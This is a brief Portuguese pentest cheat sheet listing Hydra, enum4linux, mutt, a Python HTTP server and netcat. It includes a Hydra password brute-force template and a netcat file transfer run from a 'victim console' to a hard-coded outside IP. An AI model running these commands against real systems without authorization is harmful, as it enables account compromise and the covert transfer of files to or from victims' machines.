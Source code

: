 HYDRA -l {usuario ou wordlist.txt} -P {senha ou wordslist.txt} {IP} http-head -V
- Brute Forçe em usuario Linux
---------------------------------------------------------------------------------
ENUM4LINUX
- enumera infomaçoes do sistema.
---------------------------------------------------------------------------------
MUTT
- Sistema automatico de envio de gmail.
- echo 'Teste com anexo' | mutt -s 'Assunto teste com anexo' -a arquivos -- destinatario@gmail.com
---------------------------------------------------------------------------------
PYTHON -m http.server 8080
- Cria um Servidor Basico na Porta Escolhida.
---------------------------------------------------------------------------------
NETCAT
- nc pode ser utilizado para transferir arquivo com o  simbulos (<,>).
- exemplo nc 52.237.27.64 666 > arquivo - console da vitima || nc -lvp 666 < arquivo - console do pentester.
